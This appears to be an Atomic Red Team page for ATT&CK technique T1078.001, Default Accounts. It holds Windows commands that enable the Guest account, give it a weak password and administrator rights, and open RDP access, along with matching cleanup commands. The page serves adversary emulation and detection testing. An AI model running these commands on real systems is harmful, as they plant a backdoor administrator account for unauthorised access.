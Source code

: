 # T1078.001 - Default Accounts
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1078/001)
<blockquote>Adversaries may obtain and abuse credentials of a default account as a means of gaining Initial Access, Persistence, Privilege Escalation, or Defense Evasion. Default accounts are those that are built-into an OS, such as the Guest or Administrator accounts on Windows systems. Default accounts also include default factory/provider set accounts on other types of systems, software, or devices, including the root user account in AWS and the default service account in Kubernetes.(Citation: Microsoft Local Accounts Feb 2019)(Citation: AWS Root User)(Citation: Threat Matrix for Kubernetes)

Default accounts are not limited to client machines, rather also include accounts that are preset for equipment such as network devices and computer applications whether they are internal, open source, or commercial. Appliances that come preset with a username and password combination pose a serious threat to organizations that do not change it post installation, as they are easy targets for an adversary. Similarly, adversaries may also utilize publicly disclosed or stolen [Private Keys](https://attack.mitre.org/techniques/T1552/004) or credential materials to legitimately connect to remote environments via [Remote Services](https://attack.mitre.org/techniques/T1021).(Citation: Metasploit SSH Module)</blockquote>

## Atomic Tests

- [Atomic Test #1 - Enable Guest account with RDP capability and admin privileges](#atomic-test-1---enable-guest-account-with-rdp-capability-and-admin-privileges)

- [Atomic Test #2 - Activate Guest Account](#atomic-test-2---activate-guest-account)


<br/>

## Atomic Test #1 - Enable Guest account with RDP capability and admin privileges
After execution the Default Guest account will be enabled (Active) and added to Administrators and Remote Desktop Users Group,
and desktop will allow multiple RDP connections.

**Supported Platforms:** Windows


**auto_generated_guid:** 99747561-ed8d-47f2-9c91-1e5fde1ed6e0





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| guest_user | Specify the guest account | String | guest|
| guest_password | Specify the guest password | String | Password123!|
| remove_rdp_access_during_cleanup | Set to 1 if you want the cleanup to remove RDP access to machine | Integer | 0|


#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
net user #{guest_user} /active:yes
net user #{guest_user} #{guest_password}
net localgroup administrators #{guest_user} /add
net localgroup "Remote Desktop Users" #{guest_user} /add
reg add "hklm\system\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
reg add "hklm\system\CurrentControlSet\Control\Terminal Server" /v "AllowTSConnections" /t REG_DWORD /d 0x1 /f
```

#### Cleanup Commands:
```cmd
net user #{guest_user} /active:no >nul 2>&1
net localgroup administrators #{guest_user} /delete >nul 2>&1
net localgroup "Remote Desktop Users" #{guest_user} /delete >nul 2>&1
if #{remove_rdp_access_during_cleanup} NEQ 1 (echo Note: set remove_rdp_access_during_cleanup input argument to disable RDP access during cleanup)
if #{remove_rdp_access_during_cleanup} EQU 1 (reg delete "hklm\system\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /f >nul 2>&1)
if #{remove_rdp_access_during_cleanup} EQU 1 (reg delete "hklm\system\CurrentControlSet\Control\Terminal Server" /v "AllowTSConnections" /f >nul 2>&1)
```





<br/>
<br/>

## Atomic Test #2 - Activate Guest Account
The Adversaries can activate the default Guest user. The guest account is inactivated by default

**Supported Platforms:** Windows


**auto_generated_guid:** aa6cb8c4-b582-4f8e-b677-37733914abda






#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
net user guest /active:yes
```

#### Cleanup Commands:
```cmd
net user guest /active:no
```





<br/>
